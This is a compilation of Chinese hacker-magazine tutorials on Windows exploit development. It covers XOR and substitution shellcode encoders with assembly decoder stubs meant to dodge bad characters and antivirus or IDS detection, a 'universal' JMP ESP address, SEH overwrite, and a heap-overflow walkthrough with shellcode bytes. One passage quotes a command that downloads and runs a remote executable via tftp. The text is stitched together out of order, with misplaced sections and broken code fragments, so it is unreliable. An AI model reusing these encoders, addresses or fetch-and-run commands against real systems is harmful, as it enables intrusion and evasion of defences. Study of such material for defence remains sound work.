rel[0], rel[1], rel[2], rel[3], rel[4], rel[5], rel[6], rel[7]
```

依次来解释一下。首先 P 和 Q 是两个拆分，A 作为一个临时变量来临时获取 ShellCode 中的每一个字符。外面一重循环是对原始的 ShellCode 进行循环，每一次取一个字节，到内循环去。

里面一个循环稍微麻烦一点。首先解释一下为什么要从 1 循环到 127。因为每一个单一的字节 ASCII 码是从 0 到 255 的，拆分字符的话，没有必要从 1 循环到 255，只需到一半的时候即 127 的时候，所有可能的组合就都已经出来了。接下来，先确定 P 的值，然后确定 Q 的值……

最后一个 if(j==128) 的判定，是基于对失败情况的考虑。如果内层循环是正常退出的话，说明所有的可能性都穷举完了，但是依然不能满足要求，这种时候我们视为失败，也许要重新选择另外的编码方式。

再做一点点改进。这个改进完全是为了后面书写 Decode Code 这个头部的需要，因为现在的存储方式是 xyxyxyxy……每相邻的两个字节组成原始的 ShellCode，但是在 32 位环境下，似乎每 4 个字节来处理比较方便，我们可以将存储的方式改为每 4 个字节来存储……

用上面的来替代原来代码中的输出那一行。到这一步，基本上可以有效地解决编码后 ShellCode 中包含特殊字符的问题……下面来说说 Decode Code 这个头该如何表示。Decode Code 没有办法通过自动化的手段来生成，一般都是手工来写……

Decode Code 满足的功能很简单：得到 Encoded ShellCode 的头，依次取四个字节相加，放入内存。用代码来描述如下（在 VC 中嵌入汇编，很简单方便，也很短小）：

```asm
jmp short getaddr

start:
  pop ebx
  xor ecx, ecx
  mov cx, 0x112      ; ShellCodeLength / 2
  xor esi, esi
  xor edi, edi

decode:
  mov eax, [ebx+esi] ; 取四个字节
  add esi, 4
  add eax, [ebx+esi] ; 取1回4个字节相加
  mov [ebx+edi], eax ; 放入内存
  add esi, 4
  add edi, 4
  loop decode
  jmp short scstart

getaddr:
  call start

scstart:
  nop
```

有 ShellCode 编写经验的朋友应该一下就能看出来，这是一个很简单的 Decode。Jmp Short Getaddr 一直到 POP……

| 项目 | 内容 |
|---|---|
| 适合读者 | 溢出新手 |
| 前置知识 | Shellcode基本概念 |
| 难度等级 | 高 |

## ShellCode 编码变形大法

——文/图 王炜 /ww0830

现在很多有溢出漏洞的程序对 ShellCode 都有特定的要求，一类是对 ShellCode 的长度大小有限制；另一类就是不能出现某些特殊字符，比如 Cmail 漏洞不能有大写字母，Foxmail 不能有 0x2E、0x2F 字符一类的。在这里不讨论长度限制的情况，而是讨论一下如何避免特殊字符。

要使 ShellCode 避免出现特殊字符有 2 种方法：一种是编写好 ShellCode 后，对不合要求的字符进行指令等价变换，比如一些 IIS 漏洞里面不能出现 0x20，对指令 `Mov eax, 20h`，就可以改为 `Mov eax, 24h; sub eax, 04h`，这样来避免出现 0x20。这种等价变换法对有少量字符限制的情况比较实用，但如果限制的字符较多，这种方法就比较困难了。

另一种就是把代码分成两块，第二块是 EnShellCode，即编过码后的 ShellCode，完成我们想要的功能，比如开端口、反向连接的 ShellCode 有不合法的字符，所以我们利用一定的算法，把初始的 ShellCode 进行一定的变换编码，变成合法的 EnShellCode 后放在第二块，而第一块是完成解码的 Decode，其功能是把 EnShellCode 重新变回初始的 ShellCode 后，再跳过去执行。其示意图如图 1 所示。

当然，Decode 和 EnShellCode 里面不能有非法的字符，否则变换就失去了意义。在这篇文章里，主要讨论算法 F 的变换和逆算法 F' 在 Decode 里的实现。

ebx 这一段，就是为了动态获得执行时当前的内存地址，注意这里没有 Dec ebx，原因在于后面我们并没有用 Ecx 同时作为循环的次数控制和地址偏移（那样很困难）对 Cx 的赋值，因为我们每 4 个字节来取，而且对原始的 ShellCode 编码后变长了两倍，所以只是原始 ShellCode 的一半长度就可。Decode 部分采用的是上面所说的算法，最后当循环结束，也就是解码结束以后，跳转到真正的 ShellCode 上面去。

这个短小的解码部分，很多地方是可以微调的，也就是说为了避免特殊字符的出现，可以有很多简单的修改方法。比如第一句的 Short jmp，机器码中的 EB 是没有办法的，但是可以增加 Getaddr 前面的指令，加上一些 NOP 或者类似的指令，来改变跳转的长度。这个调整同时会影响到 Call dstart 和 Jmp short scstart 的指令码，有可能要选择合适的来同时满足 3 个地方的需求。

再比如，所有的寄存器是可以替换的，像所有的 Ebx 都换成 Edx 的话，不改变本身的含义，但是改变了一些字符。还有 Add esi, 4 之类，可以有很多等价的实现方法，比如连续或者是交错的 4 个 Inc esi 或者 Add esi, 1 或者 Dec esi, -1 等。

好像在实际情况中，我都是简单地调整一下代码就可以满足要求（做好后看是否满足要求的方法，简单的可以在 VC 的调试模式下看反汇编，就是 F10 然后 Ctrl+F11），如果上面的微调都没有办法满足要求的话，那就比较麻烦了，可能需要选择另外的算法。

这里再说说另外一种可行的算法。如果对字符的要求相对来说不是非常严格，可以在最原始的 ShellCode 上做很有限地修改，就是修改异或的值。最古老的方式是按照每一字节都与同一个字符（最常见的 0x98 和 0x99）做，但是如果按照一定的顺序循环与多个字符（例如 4 个，0x12345678）异或，出现特殊字符的可能性就会大大减小。和前面一个算法一样，这是可以动态生成不同的 ShellCode 的。

比如我们设定异或的字符为 4 个字节，那么我们选择原始 ShellCode 中序列数模四为零的所有字符，与 ASCII 码从 1 到 255 的字符 X 异或，如果出现了所有的字符与 X 异或以后都没有出现特殊字符，那么我们就确定这个 X 为可行字符。同样的，我们按照模四的标准等份划分原始的 ShellCode，依次找出所有的可行字符，倘若都能找到，那么这个方法就是可行的，剩下的就是按照对字符的限制写出相关的 Decode Code。

和前一个算法一样，考虑到解码的难度，并不是异或字符数越多越好，一般倾向于 4 个或者 8 个，再多的话，编写的难度就几乎同编写一个新的 ShellCode 难度相当。限于篇幅，这里只是说明一下 ShellCode 的编码方法，没有给出具体的代码，相信看了前面的讲解，你是能够很容易编写出来。

作为《菜鸟版 Exploit 编写指南》的姊妹篇，这篇文章想独立地讲一下针对需求的 ShellCode 编写，希望对读者有所帮助。前面一种实现方法的代码可以在光盘中找到，如果你有更好的方法，希望不吝赐教。

```asm
loop:    Decode_loop
jmp      Decode_ok
Decode_end:
call     Decode_start
Decode_ok:
```

我们把上面的汇编转换成机器码，就得到了 Decode 的代码，然后在后面附上 EnShellCode 的代码，就得到了完整的部分了。

## XOR 大法

XOR 是指按位异或，其运算规则是相同为 0，不同为 1，即：

```text
0 xor 0 = 0
0 xor 1 = 1
1 xor 0 = 1
1 xor 1 = 0
```

根据运算规则，我们可以推出对于某个值 X、密钥 Key，有如下等式成立：

```text
X xor Key = Z
Z xor Key = X
Key xor Key = 0
```

即一个值对同一个数，异或两次后，得到的结果为其原值。我们可以利用该性质来实现变换算法和逆算法 F'。

### 1. 变换算法 F

算法很简单，我们把 ShellCode 数组里的每一个字符 `ShellCode[i]` 与某一密钥 Key 作异或，就得到了 EnShellCode，保存在 EnShellCode 数组中。这里令密钥 Key 为 `0x97`（也可改为其他值）。

```c
#define KEY 0x97

int main()
{
    int i;
    int nLen;
    nLen = strlen(shellcode);
    for(i=0; i<nLen; i++)
    {
        enShellCode[i] = shellcode[i] ^ KEY;
    }
    return 0;
}
```

### 2. 逆算法 F'

Decode 中要把 EnShellCode 重新变回 ShellCode，只需要将 EnShellCode 里的字符再次与编码时的 Key 异或即可，实现也较简单。实现的汇编代码如下：

```asm
jmp Decode_end
Decode_start:
  pop edx
  dec edx
  xor ecx, ecx
  mov cx, 0x200
Decode_loop:
  xor byte ptr [edx+ecx], 0x97
  loop Decode_loop
  jmp Decode_ok
Decode_end:
  call Decode_start
Decode_ok:
```

### 3. 小结

XOR 大法是最早使用、也最常见的编码方法。优点是编码和解码都较简单，并且可以避开某些字符（如 ASCII 为 0 的字符）。ShellCode 以字符串传递时，0 字符常导致截断；经 XOR 编码后可避免这一问题。

该方法也有一定适应性：如果 ShellCode 与某个 Key 异或后仍含非法字符，可尝试更换 Key 直到合法。

缺点是当限制字符过多或范围过大时，可能找不到合适 Key 来满足要求，此时需要其他编码/解码算法。

## 直接替换法

编码时先对每个字符进行异或。若某字符异或后仍非法，则对该字符单独处理，替换为符合要求的字符，这就是直接替换法。

### 1. 变换算法 F

其思想是：`ShellCode[i]` 先与 Key 异或得到 `temp`；如果合法则直接保存；如果不合法则以标志字符（如 `'0'`）和 `temp+'0'` 的方式存储。

```text
ShellCode[i] xor Key = temp

temp合法:   enShellCode[i] = temp
temp非法:   enShellCode[i] = '0'
            enShellCode[i+1] = temp+'0'
```

这里 `'0'` 只是一个标志，解码时遇到该标志即可按规则还原后续真实字节。也可替换成其他标志字符。

```c
int nShellCodeLen = strlen(ShellCode);
k = 0;
for(i=0; i<nShellCodeLen; i++)
{
    temp = ShellCode[i] ^ Key;
    ...
}
```

```c
// 对一些可能造成 shellcode 失效的字符进行替换
if (temp <= 0x1f || temp == '\\' || temp == '\'' || temp == '"' || temp == '0' || temp == ' ') {
    EnShellCode[k] = '0';
    ++k;
    temp += 0x31;
}
EnShellCode[k] = temp;
++k;
```

### 2. 逆算法 F'

清楚了编码的方法后，解码的思想也很容易理解。就是判断 EnShellCode 的每个字符，如果不是 `0`，就直接异或 key 变回去；如果是 `0`，就把后面的字符减去 `0x31` 后再异或 key，这样就恢复了之前的 ShellCode。

```asm
jmp Decode_end
Decode_start:
    pop edi
    push edi
    pop esi
    xor ecx, ecx
Decode_loop:
    lodsb
    cmp al, 0
    jz Decode_ok
    cmp al, 0x30        ; 判断是否为标志 '0'
    jz special_char_clean
store:
    xor al, key
    stosb
    jmp Decode_loop
special_char_clean:
    lodsb
    sub al, 0x31
    jmp store
Decode_end:
    call Decode_start
Decode_ok:
```

同样，我们把上面的汇编转换成机器码就得到了 Decode 的代码，然后在后面附上 EnShellCode 的代码，就得到了完整的代码了。

### 3. 小结

该方法十分巧妙，灵活地运用可以解决很多字符限制问题。Decode 的代码本身也需要是合法字符，如果有不合要求的字符，可以采用微调方式使其符合限制条件；若微调无效，则需要采用其他算法。

## 求合法字符

这种方法是 F.Zh 提出的，他的思路是把 `ShellCode[i]` 拆分成几个数字的和。由于和的组合方式有很多种，所以可以避免大量 ASCII 限制字符。在 32 位计算机上，每 4 个字节处理比较方便，因此最好拆分成 4 个数字的和。

> `ShellCode[i] = w + x + y + z`

这个思想很有创造性，如果有不明白之处，可以参考前文《定制特殊的 ShellCode》。

### 1. 变换算法 F

把 `ShellCode[i]` 取出来，穷举所有求和组合的情况。如果某个组合满足不包含任何限制字符，就将该拆分保存为 `EnShellCode`，再处理下一位，直到所有字符拆分完毕。

### 2. 逆算法 F'

得到 EnShellCode 后，依次取 4 个字节相加并放入内存，即可恢复原始 ShellCode。

### 3. 小结

这是一种不错的方法，且其创新思维也值得学习。

## 其他要注意的

从上面 3 种方法可见，只要满足条件的算法 F 和逆算法 F' 都可以用于编码变换 ShellCode。

| 算法F | 逆算法F' |
|---|---|
| ShellCode → enShellCode → ShellCode | 图4 |

所以只要有好的算法和符合编码限制的实现，都可以用于 ShellCode 编码。文中还提到了一些常见编码算法（如拆分为十六进制位求和、XOR 分组等）及其在漏洞利用中的应用，最后总结希望读者继续讨论与改进。

| 适合读者 | 溢出新手 |
|---|---|
| 前置知识 | ShellCode 基本原理 |
| 难度等级 | 高 |

## WTF：上篇文章讲了如何获取 Linux 和 Windows 下 ShellCode 的详细方法

但由于文章本身的重点不在 ShellCode 的构造和功能实现上，所以讲得比较粗略。其实在溢出这块天空下，ShellCode 是最耀眼的明星，可以毫不夸张地说，任何 Exploit 的编写、任何攻击功能的实现都需要精彩的 ShellCode 支持，没有 ShellCode 的构造，一切溢出都只是空谈……

## 定制自己的 ShellCode 之二

定制自己的 ShellCode 无非有两个原因：Exploit 的特殊要求，或者是逃脱各种杀毒软件或 IDS 的追杀。前面的文章说了一个把 ShellCode 先拆分然后再组合的方法，其结果是会加长 ShellCode 的字节一倍左右，这次再来说说其他的方法，难度可能稍微大一些，但相应的效果会更好。

在这里依然作一些约定：首先，ShellCode 是在原来的基础上修改，也就是说我们只考虑编码的方式，而具体的 ShellCode 编写方法，以前的文章其实已经有介绍了；其次，ShellCode 一般分为前面的 Decode 部分和后面编码过的真正起作用的部分，没有特殊的说明，文中出现的 ShellCode 都指后面一部分。

我们依然以一个具体的要求来作为引子，一步一步地去构造。假设我们需要的 ShellCode 长度不能超过 500 字符（这个其实已经很宽松了），而且只能作为非大写字母的文件名，也就是意味着我们不希望有小写字母、点号、星号、问号，还有左右斜杠等出现。总地来说，这还是算一个比较苛刻的条件，如果没有长度的限制，上面一篇文章已经能够很好的解决了，这里对长度的要求有点死，我们来试试看其他的路子。

需要说明的是，一般的编码方法只是考虑不要出现结束符“\x00”就可以；如果要使得编码后不出现上面这么多的字符，只和一个简单字符做异或运算能够成功的几率还是比较小的。考虑一个足够长而且字符分布均匀的字符串，进行等价划分后得到的字串和原来相比还是有着相似的性质：即同样分布均匀而且异或任何一个字符后的结果还是几乎覆盖了全部字符（不用证明了吧？），但事实上 ShellCode 的长度有限而且内容相对固定，所以采用等价划分的方法后取出的每个字符串，在与某个字符异或后的结果在全部 ASCII 字符中的分布情况肯定相对集中而且稀疏（有很多不会出现），一旦所有禁用字符都没有出现，这个划分就应该是成功的，而且显而易见，等价子串的长度越小，这种划分成功的几率越大。

关于这个结论，还有一个更加直观的理解方法。我们始终假设字符串分布均匀，所有的 ASCII 码总共是 255 个（抛开不能用的 0x00），长度为 300 的字符串经过异或以后分布肯定还是比较均匀的，但是一个只有 8 个字符的字串异或后就很有可能最多只有 8 个不同字符，不出现禁用字符的可能性相当大。

上面所有的讨论都是理论上的，对于出现的几率，分析的时候可以说“很大”或者“很小”，然而具体的设计中只有成功或者失败，即使很小的概率也不能保证成功，现实世界的一个特点就是小概率事件往往还是会发生（就像我被三楼扔下来的篮球砸到过一样），不做做看是不知道最后结果的。

划分等价类的时候，要决定划分的依据是模为几，这个数字虽然说是越小越好，但还是要实际地去选择，先写个程序来选择一下，当然，选择的标准是，划分后每一个子串都可以与某个字符异或而不产生禁用的字符。

倘若将起作用的 ShellCode 看成一个没有规律的字符串，首要的一个工作是用一个较为简单的算法，把这个乱七八糟的字串编码，以避开那些禁用字符。从可操作性上而言，异或的方法无疑是最快最好的，因为异或操作映射后的结果比较发散，相比单独的与或操作可以得到的结果更多，更重要的是这是一个可逆的运算，便于我们还原。我们做理论分析如下。

下面我们来看这种字符串等价划分的方法。用下表表示一下这个等价划分方法是这样的，其中 SSSS 表示原来的 ShellCode，abcd 表示标识。

如果是一个模 4 的等价划分，即为所有原来字符第 0、4、8……个字符重新排列成一个字符串（也就是所有标识为 a 的 S），而第 1、5、9……个字符重新排列成另一个字符串（标识为 b 的 S），以此类推。这样划分出来的若干个字符串，相对来说是独立的，可以单独地进行运算而互相不影响。

```c
for(int wokao=0; wokao<para; wokao++) {
    printf("%d", wokao);
    int ko=(sizeof(sc)-1)/para;
    for(int i=0; i<ko; i++) {
        pl[i]=sc[i*para+wokao];
    }
    for(t=1; t<255; t++) {
        ...
        for(int i=0; i<ko; i++) {
            if(inbadchar(pl[i])) goto l;
        }
        playboy=t;
    }
}
```

```c
if(inbadchar(playboy))
{
    printf("0x%0.2x,", playboy);
    temps[wokao] = playboy;
}
exit(0);
i--;
}
printf("\n");
}
```

可以看到，动态地把原始的 ShellCode 编码以后，进行解码的时候是一个长度为 13 的循环解码过程。上面那段小程序把 Para 改为 13 就是完整的动态编码，最后在 Temps 这个字符串中记录的结果是这 13 个满足条件的异或字符。下面就是编码过程示意。

这个微小的片段可以描述我们选择的依据。参数 Para 作为我们划分等价字符串的标准，在写出具体的判定程序时，最好是一个动态确定的数。K0 是每一个子串的长度，在内层循环中依次取原来 ShellCode 中的数据到临时串中，然后判断该子串是否能与某个字符异或而不产生禁用字符。若成功则记录该字符（如 Playboy），并继续下一段。多次修改 Para 后可发现较优数值为 13；它兼顾了解码部分书写复杂度与编码后结果可用性。一般可从小到大尝试 Para，若 N 可行则其倍数通常也可行，反之不然。

由于固定了等价划分标准为 13，上面的程序可以帮助生成满足条件的异或字符（表示为 a-m）。在 32 位环境下，可将 13 个字符拆成 3 个 4 字节整数和 1 个单字节字符，用较少循环完成解码。根据《定制自己的 ShellCode》中给出的解码部分模板，可以较容易写出解码代码。

```asm
jmp short getaddr

lstart:
    pop ebx
    xor ecx, ecx
    mov cx, 0x112
    xor esi, esi
decode:
    xor DWORD ptr [ebx+esi], 0xD4FDFBE7
    add esi, 4
    xor DWORD ptr [ebx+esi], 0xFBE7FCF4
    add esi, 4
    xor DWORD ptr [ebx+esi], 0x61FA72F9
    add esi, 4
    xor [ebx+esi], 0xF4
    add esi, 1
    nop
    loop decode
    jmp short scstart
getaddr:
    call lstart
scstart:
```

## 探索实战 Exploit

## 编写指南有感

文/图 王炜/ww0830

在看了 F.Zh 写的《菜鸟版 Exploit 编写指南》后，觉得 F.Zh 写得非常好，深入浅出，步骤详尽，同时也加上了很多自己的经验在里面，是不可多得的经典文章。我看了文章后，利用那两篇文章介绍的方法实际测试了一些漏洞，一些能成功，一些不能成功，在这个过程中，自己也发现了一些问题和解决方法，写出来希望和大家一起进步。

```asm
nop
```

和以往一样，用一个 Jmp 和一个 Call 来获得编码后的 ShellCode 开始位置。CX 是控制循环次数的，按道理最少应该是 ShellCode 的长度除以 13，这里为了方便就固定下来一个数字。ESI 用来控制偏移量，也就是控制解码到了 ShellCode 的第多少个字符。后面从 Decode 开始的段就是上面说的那种方法，依次与 3 个 4 字节长的整数和一个单字节的字符运算解码。值得注意的是，这里的操作数不是固定的，都是动态生成并在编写程序时动态填入。

```text
"\xeb\x33\x5b\x33\xc9\x66\xb9...（机器码字节序列）"
```

4 个需要动态确定的常量在这一段代码中的偏移分别是 14、24、34 和 44。写到这里发句牢骚（wtf：又来这招……），Decode 部分无疑是要精心构造的，但是这偏偏是一个非常费体力的活动，没有什么技巧，就是道理简单运算复杂。这里给出一段实践感受，并说明编码和解码的架子搭好之后，剩下的就是组装，把前面计算好的异或字符代码片段收集起来写到解码部分。

经整理，为了方便调用起见，这个我写成了一个函数：

```c
void MakeDecode(int i, int j, int k, unsigned char l)
{
    *(int*)(de+14) = i;
    *(int*)(de+24) = j;
    *(int*)(de+34) = k;
    *(de+44) = l;
}


```

3 个变量 i、j、k 是头 12 个字符，l 是最后一个字符，这个函数可以完成解码部分的填充工作。计算出来的变量放在 Temps[] 里，拿出来调用这个函数即可。ShellCode 部分也要预先与 Temps[] 进行异或运算以逃脱禁用字符。这部分工作与解码部分思路一致。

说到这里这个算法差不多就已经算是完了，几个重点问题已解决，只要把解码部分和编码后的 ShellCode 部分连接在一起就能构造完成。按照 Main 中的用法，可以直接构造变态要求的 Exploit。对于禁用字符的定义，源码的 Badchar 中给出了一些，也可以按需修改，但不要过度，否则构造可能失败。

在上一篇文章的最后我提到这种方法里面的“模向于标准为 4 或者是 8 的划分”，想来是瞎断了，实际上这个数字通常在 7 到 17 之间。剩下没有解释的代码都很简单，大家可以直接拿来用而不用去管。两篇文章主要都是关于 ShellCode 的一些想法和简单算法，抛砖引玉而已。

PS：F.Zh 这个名字被女友无情抢走，以后这个系列就换成沙布拉尼尔为大家介绍了，可别忘了我哦。我还等着大家一起讨论文章呢！

## 第一个问题 JMP ESP地址的通用性问题

F.Zh在两篇文章中都强调JMP ESP的操作码在内存中的地址，它对版本是有依赖性的，并强调多一次机会放上两个版本的返回码，可以多一次成功的机会。

开始自己也是这么认为的，但后来偶然查到Lion公布了跳转到EBX的通用地址，也就是F.Zh文章中所说的0x7FFA1571，而且Lion后来也公布了JMP ESP的通用地址0x7FFA4512。

查到这个，心中狂喜！马上按F.Zh介绍的方法写出LSA的溢出程序，并放上0x7FFA4512作为跳转地址，然后测试了中文Windows 2000的所有SP版本，还有Windows XP和Windows 2003，发现都是有效的。因为这个地址会给大家很大的帮助，所以这里说说，作为F.Zh文章的补充吧。

衔接起来，形成了一个异常处理串。所以这里我们故意把返回的地址覆盖成一个错误的地址，出错时，Windows就会跳到处理错误的入口，而EBX指向入口前4个字节的地方，我们在这里毫不客气地一起覆盖了！哈哈，情况变成如图2所示，当然就可以跳到ShellCode了，这就是接管异常，听起来很有成就感吧？
## 第二个问题 可以利用jmp/call ebx的原理

F.Zh在讲用JMP ESP覆盖返回地址方法的时候写得很清楚了，建议大家仔细阅读。但在讲用“jmp/call ebx”覆盖异常的时候，F.Zh只是说l=2844的地方放“jmp/call ebx”，程序就会执行到l=2840。我们在l=2840的地方放“NOP/NOP/Jmp 4”，在l=2248放上我们的ShellCode，就可以完成跳转了！但自己心中就有个疑问，为什么执行“jmp/call ebx”会到前面4个字节呢？

后来查了大量资料和文章，发现机制原来是这样的。在用JMP ESP覆盖返回地址时，我们知道将会把返回地址覆盖成另一个地址，但如果是个无效的地址呢？那里指向的数据或许不能读，或许不能执行，又会怎么样呢？

相信大家都遇到过，那就是系统会弹出个对话框报错。我们点确定，就会终止运行。这是因为作为一个系统级的程序，内部有健全的出错处理机制。简单地说：如果运行时有错误产生，Windows就会跳到一个专门处理错误的地方，对应不同的错误执行不同的代码。上面执行的代码就是弹出对话框报错。Windows处理错误的机制如图1所示。
## 第三个问题 检查覆盖地址错误还是Shell-Code被改变的方法

在第2篇文章中，F.Zh重点在于如何找到要覆盖地址的位置，方法很巧妙，也很实用，但只是在找到覆盖的地方后简单地附加上了现成的ShellCode。利用该方法，在实际的应用中常常不能一下就成功实现ShellCode的功能。

这可能有两个原因，一是覆盖地址不对，二是ShellCode中的一些字符被改变、截断，表现出来的情况就是完成不了我们想要的功能。在这种情况下，我们需要知道究竟是覆盖地址错了，还是ShellCode被改变了？

在经过大量的测试后，自己发现一个很适合我们菜鸟的简单方法来判断，即在ShellCode的第一句添上“\xeb\xfe”，即“jmp -1”这样一个死循环，不要小瞧它，在调试中是很有用的。我们运行写好的Exploit攻击程序，如果返回地址正确，那么就会跳入“\xeb\xfe”这句死循环中，我们调出SoftIce发现一直陷入这句指令不走了，然后对照跟在后面的ShellCode，看它是否和我们编写的一样，这样可以比较容易地发现问题。

如果发现没有陷入“\xeb\xfe”这句死循环，那可以肯定覆盖的地址是错的，需要重新定位覆盖点或换成通用的覆盖地址。举个实际的例子来说吧。

自己在利用ROOT的程序测试Foxmail的漏洞时就是用该方法来发现ROOT给的返回地址在自己的机子上是无效的，溢出后进入不了“\xeb\xfe”这句死循环，所以自己就换了一个返回地址，终于可以进入“\xeb\xfe”了，但还是完成不了功能，再对照ShellCode发现原来是“cmd /c tftp -i 192.168.1.1 get abc.exe & abc.exe”这句中的“cmd /c”的“/”被替换了，知道问题就好办了，换了一个合要求的就可以了，呵呵。

有些时候经验是可遇不可求的，所以写出来希望对大家能有点帮助，自己就很高兴了（脚本小子：那么高兴，稿费就算了吧？）。

| 适合读者 | 漏洞研究员、入侵爱好者 |
|---|---|
| 前置知识 | 汇编代码阅读能力，溢出基本原理 |
| 难度等级 | 高 |

> **WTF：** OYXin的《Windows下HEAP溢出新技巧》这篇文章的目的是提出在Windows下的HEAP溢出及其利用。文中介绍的溢出利用方法思路清晰、方法实用，但对很多朋友来说堆溢出的基础概念可能不够清楚，所以有必要先把Windows下堆溢出的基本原理搞明白，再进一步研究下去。
## Windows下堆溢出初步

文/图 王炜, ww0830.

首先说说闲话，我认为最好的学习方法是类比（对比），如果之前对新知识的相关背景有所了解，那学习起来会很快上手，而且很多思想和方法都可以借鉴以前的知识，所以前辈们一再强调基本功的重要性，比如算法、数据结构等，都是这个原因。所以，我们菜鸟们也用类比的方法来学习堆溢出吧！
图1

翻翻F.Zh在黑防上的Exploit系列文章，我们从这3点来看看堆溢出的原理和利用。首先看看一个很简单的有堆溢出问题的程序Vul1.c。

### 堆栈溢出和原理

和什么知识对比好呢？如果是溢出，那当然是和Windows下的堆栈溢出作对比最好了。堆栈溢出和堆溢出只相差一个字，但内容可完全不同。在本书中，有很多个介绍堆栈溢出的文章，特别是F.Zh的文章，简直是把Windows下堆栈溢出的教程提高到了一个前所未有的高度。那我们就参照F.Zh的堆栈溢出文章，来学习Windows下的堆溢出吧。

- 1. 返回点的定位：F.Zh在经典文章中详细讲过利用报错对话框精确定位溢出返回点的方法。
- 2. ShellCode的编写：这里ShellCode是实现任意功能的代码，可直接使用现成代码。
- 3. 跳转到ShellCode：把返回点覆盖成 `jmp esp` 地址，或覆盖异常处理点为 `call ebx` / `pop pop ret` 等地址。

从上面3点，可以得知堆栈溢出利用的示意图如图1所示。函数返回后，EIP指向`jmp esp`，而ESP指向ShellCode，从而执行任意功能代码。

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
char mybuf[] = "ww0830";
int main(int argc, char *argv[])
{
    HANDLE hHeap;
    char *buf1, *buf2;
    hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x10000, 0x100000);
    printf("mybuf addr= %p\n", mybuf);
    buf1 = HeapAlloc(hHeap, 0, 200);
    strcpy(buf1, mybuf);
    printf("buf1= %s\n", buf1);
    buf2 = HeapAlloc(hHeap, 0, 16);
    HeapFree(hHeap, 0, buf1);
    HeapFree(hHeap, 0, buf2);
    return 0;
}


```

稍微解释一下该程序：首先建立一个HEAP，以免破坏进程默认HEAP；然后动态分配200字节的buf1，并把Mybuf数组的内容拷贝给它，接着分配Buf2，最后把Buf1和Buf2释放掉后就退出了。为了便于演示定位，我们还把Mybuf数组的地址打印了出来。

在Mybuf数组很小的时候，程序没有任何问题。我们用VC按照Release方式编译，并在命令行下运行，程序就会打印出Mybuf地址和Buf1内容，然后安全退出，如图2所示。
图2

> Debug版的程序与实际运行程序的内存结构是不同的，所以上面的程序要用VC按照Release方式编译，并在命令行下运行它。记得不要在MSDEV中调试运行。在VC下生成Release版的方法是选择菜单栏“编译”→“设置活动工程配置”，然后在弹出的“活动工程配置”中选择“Win32 RELEASE”，这样生成的程序就会在Release目录下，并且是发布版本；也可以在工具栏的“Select Active Configuration”框中直接选择生成Release版，如图3所示。
图3

然后我们稍微改变一下程序，只是加长Mybuf的长度，变为240个A，具体代码参看Vul2.c。重新生成Release版的程序后，在命令行下运行它。看，出现报错对话框了，内容为“0x77fcb3f5 指令引用的 0x41414141 内存。该内存不能为 written”，0x41就是大写字母A的16进制码。呵呵，你是否联想起了堆栈的溢出呢？不过在这里，Buf1是动态分配的，所以是在堆中发生了溢出。如图4所示。
图4

从刚才的测试中，我们看到了程序存在着溢出问题。接下来尝试利用它吧，方法嘛，就是堆栈溢出的标准3大步骤啦。

## 溢出点的定位

采用F.Zh经典的对话框报错定位大法，可以很巧妙地得到溢出点的位置。如果有所遗忘的话，我们在这里复习一下。

首先改变程序，把Mybuf数组填充的方法改变一下，改变的程序为Vul3.c。我们把Mybuf数组的填充方法替换为：

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i % 10;
}


```

重新生成程序并在命令行下执行，这下报错框成了“0x77fcb3f5 指令引用的 0x69686766 内容，该内存不能为 written”，如图5所示。
图5

我们记下这个数字，看来这次是0x69686766覆盖到了溢出点。我们再把Mybuf[i] = 100 + i % 10的取余数改为整除，得到程序Vul4.c。

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i / 10;
}


```

执行Vul4，这次出现的错误框成了“0x77fcb3f5 指令引用的 0x79797979 内容，该内存不能为 written”，如图6所示。
图6

我们分析一下这两个过程，第一次是把Mybuf数组不停地加上100~109，就是十六进制的0x64~0x6D的循环；第二次则是以10为一段长度，每段分别以0x64、0x65……来填充Mybuf。

第一次溢出时，报错值是0x66，此时数组中只有0x64~0x6D不断循环，所以我们可以推出尾数是0x66-0x64=2。

第二次溢出时，报错的全部是0x79，而此时是从0x64开始，每10个数为一段。0x79-0x64=0x15，就是十进制的21，即在字符串的第21个段，所以我们可以大胆地计算出出错点的位置是：

(0x79-0x64)×10 + (0x66-0x64) = 21×10 + 2 = 212

我们再验证一下，指定Mybuf第212开始的4个字节是“BBBB”，其余全部为“A”。如果我们的计算正确，那么应该是0x42（B的十六进制）覆盖到溢出点。

```c
for(i=0; i<240; i++)
{
    mybuf[i] = 'A';
}

mybuf[212] = 'B';
mybuf[213] = 'B';
mybuf[214] = 'B';
mybuf[215] = 'B';


```

执行该程序（Vul5.c），果然弹出的对话框成了“0x77fcb3f5 指令引用的 0x42424242 内容，该内存不能为 written”，证明了我们的计算是正确的，如图7所示。
我们分配的Buf1是200个字节，溢出点却是第212个字节，看起来有点奇怪。不过不要紧，看了后面的分析之后就清楚了，我们还是先按步骤继续吧。

## ShellCode的编写

ShellCode很重要，这里就不详细介绍了，外面有很多现成的ShellCode，直接拿来使用就可以了，但堆溢出的ShellCode更有其特殊的要求。

- 1. 如果溢出的是默认堆，则不能使用网络相关的函数，比如开端口、反向连接等ShellCode都不能使用。
- 2. 可以想办法在ShellCode中恢复默认堆，然后再使用网络相关ShellCode，但有时恢复堆后仍不能用网络编程的函数。
- 3. 新建一个堆，不用默认堆。
- 4. 干脆就不用网络相关的ShellCode，只是添加用户一类的。

在这里，因为只是为了说明方法，所以我们用最简单的手段（WTF：真会偷懒啊），不仅溢出新建的堆，而且ShellCode也不用网络相关的函数，就是完成打开DOS窗口的功能。在Windows 2000 SP3下的代码如下：

```c
unsigned char shellcode[] =
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D"
"\xC6\x45\xF5\x53" ...
```

```c
"\xC6\x45\xF6\x6C\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA\x64\x9F\xE6\x77" ... // SP3_loadlibrary地址
"\xC3\xAF\x01\x78" ... // SP3_system地址 0x7801afc3


```

其编码、通用性等方面都没有涉及，我们还是集中精力，看看更关键的地方吧。

## 跳转到ShellCode

